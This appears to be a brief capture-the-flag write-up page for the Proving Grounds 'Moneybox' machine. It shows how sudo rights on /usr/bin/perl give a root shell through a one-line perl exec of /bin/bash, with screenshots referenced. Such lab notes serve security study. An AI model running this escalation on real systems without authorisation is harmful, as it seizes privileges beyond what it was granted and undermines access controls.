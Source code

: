 ```yaml
---
layout: default
title: Perl
parent: SUID
nav_order: 1
---
```


# Perl

---

We have sudo privileges for _/usr/bin/perl_

![sudo](../../../../assets/images/ctfs/proving_grounds/moneybox/sudo.png)

![gtfobins](../../../../assets/images/ctfs/proving_grounds/moneybox/gtfobins.png)

Run _perl_ to execute /bin/bash and elevate to a root shell.

```bash
sudo perl -e 'exec "/bin/bash";'
```

![root](../../../../assets/images/ctfs/proving_grounds/moneybox/root.png)
